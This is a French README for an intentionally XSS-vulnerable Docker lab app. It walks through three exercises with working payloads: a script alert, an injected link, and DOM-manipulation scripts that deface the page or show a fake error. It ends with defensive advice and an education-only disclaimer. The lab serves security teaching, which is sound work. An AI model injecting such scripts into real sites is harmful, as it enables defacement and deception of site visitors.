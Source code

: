 # XSS Vulnerable App: Guide d'Exploitation

Ce projet est une application web volontairement vulnérable aux attaques XSS (Cross-Site Scripting) permettant d’expérimenter et de comprendre ses vulnérabilités.

---

## Prérequis

### 🔹 **Outils nécessaires**
- **Docker** (Vérifiez l’installation avec `docker --version`).
- **Navigateur Web** (Chrome, Firefox, etc.).
- **Git** afin de cloner le dépôt.
---

## Installation et Lancement

**Cloner le projet et accéder au dossier du projet**  
```sh
git clone https://github.com/zakisfa/xss-vulnerable-app.git
cd xss-vulnerable-app
```

**Construire l’image Docker avec la commande suivante**  
```sh
docker build -t xss-vulnerable-app .
```

**Exécuter le conteneur**  
```sh
docker run -d -p 8080:80 xss-vulnerable-app
```

**Accéder à l'application depuis un navigateur web avec le lien suivant**  
```sh
http://localhost:8080
```

---

## Scénarios d’attaque XSS
Une fois connecté a l'application vous serez sur l'index de l'application, il y a 3 scénarios possibles d'injections.
Faites les dans l'ordre.
### **Injection XSS via Pop-up**
#### Description :
Ce scénario illustre comment injecter un script malveillant qui déclenche une **alerte** sur le navigateur.

#### Objectif :
- Injecter un script dans le champ pour **afficher un pop-up**.

#### Solution :
Saisissez cette **payload XSS** et validez le formulaire :
```html
<script>alert('XSS réussie!');</script>
```
**Impact** : Un attaquant peut injecter du JavaScript et exécuter du code arbitraire.

---

### **XSS via Insertion de Lien Malveillant**
#### Description :
L’objectif est de **piéger** un utilisateur en lui faisant cliquer sur un **lien injecté** dans un commentaire.

#### Objectif :
- Insérer un lien malveillant dans un champ commentaire.

#### Solution :
Saisissez cette **payload XSS** et validez le formulaire :
```html
<a href="https://google.com" target="_blank">Cliquez ici</a>
```
 **Impact** : Un attaquant peut rediriger un utilisateur vers un **site malveillant**.

---

### **XSS via DOM Manipulation**
#### Description :
Ce scénario montre comment le JavaScript d’une page peut être manipulé dynamiquement sans interaction serveur.

#### Objectif :
- Exploiter une injection pour **modifier le DOM**.

#### Solution :
1. Dans le champ, injecter l'un des scripts suivants :
   
   **Modifier le titre de la page** :
   ```html
   <script>document.title = "Site piraté !";</script>
   ```

   **Changer le texte principal** :
   ```html
   <script>document.querySelector('h1').innerText = "Ce site est compromis";</script>
   ```

   **Modifier l'apparence du site** :
   ```html
   <script>
   document.body.style.backgroundColor = "black";
   document.body.style.color = "red";
   </script>
   ```

   **Afficher un message d'alerte en haut de la page** :
   ```html
   <script>
   let warning = document.createElement("div");
   warning.style = "position: fixed; top: 0; left: 0; width: 100%; background: red; color: white; padding: 10px; font-size: 20px; text-align: center;";
   warning.innerText = "⚠️ Alerte : Site compromis !";
   document.body.prepend(warning);
   </script>
   ```

   **Faux message d'erreur** :
   ```html
   <script>
   document.body.innerHTML = "<h1 style='color:red;text-align:center;'>Erreur 500 - Site en maintenance</h1>";
   </script>
   ```

2. Valider le formulaire et observer le changement sur la page.

**Impact** : Un attaquant peut modifier le contenu affiché, afficher des messages trompeurs, et perturber la navigation.

---

## Comment Se Protéger ?
 **Éviter d’afficher directement les entrées utilisateur** (utiliser `htmlspecialchars()`).  
 **Implémenter un Content Security Policy (CSP)**.  
 **Échapper systématiquement** les entrées dans le DOM (`innerText` au lieu de `innerHTML`).  
 **Filtrer les entrées utilisateurs** côté serveur.

---

## Disclaimer

**Ce projet est destiné à l’éducation uniquement.** 

**Auteur : DANNENMULLER ZACHARIE**
